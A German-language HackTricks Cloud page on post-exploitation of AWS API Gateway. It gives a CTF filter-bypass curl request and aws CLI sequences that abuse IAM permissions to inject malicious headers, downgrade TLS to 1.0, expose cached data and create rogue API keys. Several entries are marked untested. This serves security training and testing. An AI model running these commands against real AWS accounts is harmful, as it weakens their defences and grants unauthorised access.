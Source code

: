 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
&#x20;Lernen Sie AWS-Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;Lernen Sie GCP-Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

## API Gateway

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Zugriff auf nicht freigegebene APIs

Sie können einen Endpunkt unter [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) mit dem Dienst `com.amazonaws.us-east-1.execute-api` erstellen, den Endpunkt in einem Netzwerk freigeben, auf das Sie Zugriff haben (möglicherweise über eine EC2-Maschine), und eine Sicherheitsgruppe zuweisen, die alle Verbindungen zulässt.\
Dann können Sie von der EC2-Maschine aus auf den Endpunkt zugreifen und somit die Gateway-API aufrufen, die zuvor nicht freigegeben war.

### Umgehen der Weiterleitung des Anforderungskörpers

Diese Technik wurde in [**diesem CTF-Writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) gefunden.

Wie in der [**AWS-Dokumentation**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) im Abschnitt `PassthroughBehavior` angegeben, gibt der Standardwert **`WHEN_NO_MATCH`** bei Überprüfung des **Content-Type**-Headers der Anforderung die Anforderung ohne Transformation an das Backend weiter.

Daher hatte das API Gateway im CTF eine Integrationsvorlage, die **verhinderte, dass die Flagge exfiltriert wurde**, wenn eine Anforderung mit `Content-Type: application/json` gesendet wurde:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Jedoch würde das Senden einer Anfrage mit **`Content-type: text/json`** verhindern, dass dieser Filter greift.&#x20;

Schließlich, da das API Gateway nur `Get` und `Options` erlaubte, war es möglich, eine beliebige dynamoDB-Abfrage ohne Einschränkung zu senden, indem man eine POST-Anfrage mit der Abfrage im Body sendet und den Header `X-HTTP-Method-Override: GET` verwendet:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Nutzungspläne DoS

Im **Enumeration**-Abschnitt können Sie sehen, wie Sie den **Nutzungsplan** der Schlüssel **erhalten** können. Wenn Sie den Schlüssel haben und er auf X Nutzungen **pro Monat begrenzt** ist, könnten Sie ihn **einfach verwenden und einen DoS verursachen**.

Der **API-Schlüssel** muss nur in einem **HTTP-Header** namens **`x-api-key`** enthalten sein.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateGatewayResponse` und `apigateway:CreateDeployment` kann **eine vorhandene Gateway-Antwort ändern, um benutzerdefinierte Header oder Antwortvorlagen einzuschließen, die sensible Informationen preisgeben oder bösartige Skripte ausführen**.
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Offenlegung sensibler Informationen, Ausführung bösartiger Skripte oder unbefugter Zugriff auf API-Ressourcen.

{% hint style="info" %}
Benötigt Test
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateStage` und `apigateway:CreateDeployment` kann **eine vorhandene API Gateway-Stage ändern, um den Datenverkehr auf eine andere Stage umzuleiten oder die Caching-Einstellungen zu ändern, um unbefugten Zugriff auf zwischengespeicherte Daten zu erhalten**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Unbefugter Zugriff auf zwischengespeicherte Daten, Störung oder Abfangen des API-Verkehrs.

{% hint style="info" %}
Testen erforderlich
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:PutMethodResponse` und `apigateway:CreateDeployment` kann **die Methodenantwort einer vorhandenen API Gateway REST-API-Methode ändern, um benutzerdefinierte Header oder Antwortvorlagen einzuschließen, die sensible Informationen preisgeben oder bösartige Skripte ausführen**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potenzielle Auswirkungen**: Offenlegung sensibler Informationen, Ausführung bösartiger Skripte oder unbefugter Zugriff auf API-Ressourcen.

{% hint style="info" %}
Testen erforderlich
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateRestApi` und `apigateway:CreateDeployment` kann **die API Gateway REST API-Einstellungen ändern, um das Logging zu deaktivieren oder die minimale TLS-Version zu ändern, was potenziell die Sicherheit der API schwächen kann**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potenzielle Auswirkungen**: Schwächung der Sicherheit der API, was möglicherweise unbefugten Zugriff ermöglicht oder sensible Informationen offenlegt.

{% hint style="info" %}
Testen erforderlich
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ein Angreifer mit Berechtigungen `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` und `apigateway:CreateUsagePlanKey` kann **neue API-Schlüssel erstellen, sie mit Nutzungsplänen verknüpfen und diese Schlüssel dann für unbefugten Zugriff auf APIs verwenden**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potenzielle Auswirkungen**: Unbefugter Zugriff auf API-Ressourcen, Umgehung von Sicherheitskontrollen.

{% hint style="info" %}
Testen erforderlich
{% endhint %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
